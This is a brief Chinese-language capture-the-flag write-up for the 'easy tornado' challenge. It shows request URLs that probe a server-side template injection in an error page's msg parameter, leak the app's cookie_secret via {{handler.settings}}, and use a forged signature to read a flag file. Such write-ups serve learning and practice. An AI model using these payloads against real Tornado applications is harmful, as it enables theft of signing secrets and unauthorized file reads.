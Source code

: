 ##  easy tornado

##  Tools

NULL

##  Steps

* Step 1  
报错时的error参数存在模板注入
```
http://49.4.78.81:30980/error?msg={{1^0}}
```
提交
```
http://49.4.78.81:30980/error?msg={{handler.settings}}
```
可以看到cookie_secret  
伪造签名读取flag
```
http://49.4.78.81:30980/file?filename=/fllllllllllag&signature=7bae09c2c6e2f6aa34df7dbee23db960
```




